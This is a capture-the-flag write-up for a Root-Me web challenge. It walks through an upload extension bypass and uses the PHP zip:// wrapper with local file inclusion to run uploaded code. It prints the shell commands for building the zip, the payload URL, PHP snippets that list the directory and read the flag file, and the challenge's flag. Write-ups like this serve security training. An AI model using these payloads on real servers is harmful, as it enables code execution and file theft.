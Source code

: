 ```yaml
---
layout: default
title: Local-File-Inclusion-Wrappers
---
```


In this challenge we exploit `LFI` using the `zip` wrapper.

First, we can see it checks whether this is `jpg` only by the extension, so we can upload whatever we want.

![upload file](./images/Local-File-Inclusion-Wrappers_upload_file.png)

Second, after uploading the image, we redirect to this page:

`http://challenge01.root-me.org/web-serveur/ch43/index.php?page=view&id=dsRbA9R5j`, and we can see this attribute that includes our image.
It shows us also the path, which is `tmp/uploaddsRbA9R5j.jpg`.

```html
<img src="tmp/upload/dsRbA9R5j.jpg">
```

We can see `LFI` is possible here for example, when we do `id=../upload/DI9u2XWQd`:
```
http://challenge01.root-me.org/web-serveur/ch43/index.php?page=view&id=../upload/DI9u2XWQd
```

Okay, let's try to inject input into `?page`:

After checking, we find that we can't use `.`, luckily we know the path of the uploads, which is `/tmp/upload/`.

Second, I've tried multiple wrappers, I've found that we can use those wrappers: `zip`, `glob`, `file`.

![wrapper testing](./images/Local-File-Inclusion-Wrappers_wrapper_testing.png)

#### Exploit

I've found this paper [file inclusion owasp](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_File_Inclusion), and there it talks about `PHP ZIP`, and the way we can use `zip://` wrapper for getting `RCE`.

In general, the structure of this `zip` wrapper is:
```
zip:///filename_path#internal_filename
```
When the zip archive is `/filename_path`, and the file we access inside the zip that appears after the `#` is `internal_filename`.

So, the idea is to do this stages (copied from the paper):

1. Create the PHP file to be executed, for example with the content `<?php phpinfo(); ?>` and save it as `code.php`.
2. Compress it as a new ZIP file called `target.zip`.
3. Rename the target.zip file to `target.jpg` to bypass the extension validation and upload it to the target website as your avatar image.
4. Supposing that the `target.jpg` file is stored locally on the server to the `../avatar/target.jpg` path, exploit the vulnerability with the `PHP ZIP` wrapper by injecting the following payload to the vulnerable URL: `zip://../avatar/target.jpg%23code` (remember that %23 corresponds to #).

In our case we need to know there is another constraint that we haven't mention yet, which is the length. 
We can't give payload which is longer than `33` chars.

And now, let's start building the payload!

```bash
echo "<?php phpinfo() ?>" > c.php # create PoC of RCE
zip target.zip c.php # create zip archive
mv target.zip target.jpg
```

And now uploading to the website, and taking the random string, in our case `7mEsTAIn9`.

Then, we create our payload:
```
?page=zip://tmp/upload/7mEsTAIn9.jpg%23c
```
Notice that the `zip` wrapper ignores the `jpg` extension and treat this as zip archive.

![phpinfo PoC](./images/Local-File-Inclusion-Wrappers_phpinfo.png)

Know, we want to read the content of the directory, and then cat the password.

So, we upload this php code:
```php
<?php print_r(scandir(".")); ?>
```

And get back as response:
```php
Array
(
    [0] => .
    [1] => ..
    [2] => ._nginx.http-level.inc
    [3] => ._nginx.server-level.inc
    [4] => ._perms
    [5] => ._php-fpm.pool.inc
    [6] => ._run
    [7] => .git
    [8] => .gitignore
    [9] => flag-mipkBswUppqwXlq9ZydO.php
    [10] => index.php
    [11] => tmp
    [12] => upload.php
    [13] => view.php
)
```
Let's read `flag-mipkBswUppqwXlq9ZydO.php`:
This is our payload:
```php
<?php echo htmlentities(file_get_contents("flag-mipkBswUppqwXlq9ZydO.php")); ?>
```
And get back as response:
```php
<?php $flag="lf1-Wr4pp3r_Ph4R_pwn3d"; ?>
```

![FINAL](./images/Local-File-Inclusion-Wrappers_FINAL.png)

**Flag:** ***`lf1-Wr4pp3r_Ph4R_pwn3d`***

